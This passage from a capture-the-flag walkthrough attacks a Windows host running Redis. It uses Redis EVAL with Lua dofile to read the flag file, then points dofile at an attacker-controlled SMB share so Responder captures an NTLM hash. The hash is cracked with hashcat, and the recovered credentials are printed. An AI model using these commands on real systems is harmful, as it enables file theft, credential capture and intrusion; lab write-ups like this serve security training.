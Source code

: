 - Since the user.txt flag is on the Desktop:

```bash
EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0

```

![image12](../resources/9fe19cdda01748a9be77fa6a949adb7e.png)

- user.txt received as error:
**3eb176aee96432d5b100bc93580b291e**

- Since we have access to browse essentially and SMB is open
- We can set up Responder and catch a NTLM hash:

```bash
sudo responder -I tun0

```
- On the redis-cli:

```bash
EVAL "dofile('//10.8.24.66/dsfsdf')" 0  #IP of my Kali tun0
```

![image13](../resources/7436b12d793f487585fc58e18644a4ac.png)


![image14](../resources/a5f0b9d99c22447397aec6605b5fec9d.png)

- Copy entire hash string (from enterprise-security to the end) put into hashes.txt

- Crack with hashcat:

```bash
hashcat -m 5600 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image15](../resources/67733004f58645729e712ceadfe891e5.png)

- Got credentials: **enterprise-security : sand_0873959498**
